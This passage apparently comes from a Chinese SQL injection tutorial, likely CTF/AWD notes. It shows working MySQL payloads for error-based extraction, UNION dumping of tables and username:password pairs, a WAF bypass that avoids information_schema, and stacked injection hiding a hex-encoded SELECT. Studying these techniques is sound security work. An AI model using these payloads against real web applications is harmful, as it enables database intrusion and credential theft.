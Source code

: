 ```sql
mysql> select * from(select * from test a join test b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from(select * from test a join test b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```
## **2.5 整数溢出报错**
测试发现在mysql5.5.47可以在报错中返回查询结果：而在mysql>5.5.53时，则不能返回查询结果。
```sql
mysql> select exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```
利用以下语句能爆出所有字段
```SQL
SELECT 2* if((SELECT * from (select * from users) as x limit 1) > (SELECT * from users limit 1), 18446744073709551610, 18446744073709551610);
[Err] 1690 - BIGINT UNSIGNED value is out of range in '(2 * if(((select
 `awd_bank`.`users`.`id`,`awd_bank`.`users`.`username`,`awd_bank`.`users`.`password`,`awd_bank`.`users`.`money`
from `awd_bank`.`users` limit 1) > (select
`awd_bank`.`users`.`id`,`awd_bank`.`users`.`username`,`awd_bank`.`users`.`password`,`awd_bank`.`users`.`money`
from `awd_bank`.`users` limit 1)),18446744073709551610,18446744073709551610))'
```
# **3 UNION联合查询注入**
当页面存在明显数据查询回显的时候，同时又存在 SQL注入漏洞，这时候可尝试通过union查询注出需要的数据。比如：
?id=1 注入，首先通过order by猜测列数，?id=1' order by 5%23，最后发现order by 后为3的时候不报错，因此可以判断改SQL语句查询的结果有3列。
```sql
爆库
id=0' union select 1,database(),3 %23
爆表
?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23
爆字段
?id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' %23
爆字段值
0' union select 1,group_concat(username,0x3a,password),3 from users %23
```
已知某个地方有注入，waf拦截了information_schema、columns、tables、database、schema等关键字或函数，我们如何去获取当前字段名呢？
 
常见的做法有利用union搭配别名子查询，在不知道字段的时候进行注入。

例如：
```sql
select * from users where id =1 union select (SELECT e.3 from(SELECT * from (SELECT 1)a,(SELECT 2)b,(SELECT 3)c,(SELECT 4)d union SELECT * from users)e LIMIT 1 OFFSET 1)f,(select 1)g,(select 1)h,(select 1)i;
```
# **4 堆叠注入**
原理：利用;结束语句并插入自己的sql语句<br>
适用：
Mysql、SqlServer、Postgresql(Oracle不行)
只有当调用数据库函数支持执行多条sql语句时才能够使用，例如mysqli_multi_query()函数就支持多条sql语句同时执行。PDO默认支持多语句查询，如果php版本小于5.5.21或者创建PDO实例时未设置PDO::MYSQL_ATTR_MULTI_STATEMENTS为false时可能会造成堆叠注入。
```sql
-1;show tables%23
-1';show columns from `1919810931114514`%23
利用存储过程绕过select过滤
inject=1%27;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare%20execsql%20from%20@a;execute%20execsql;#
```
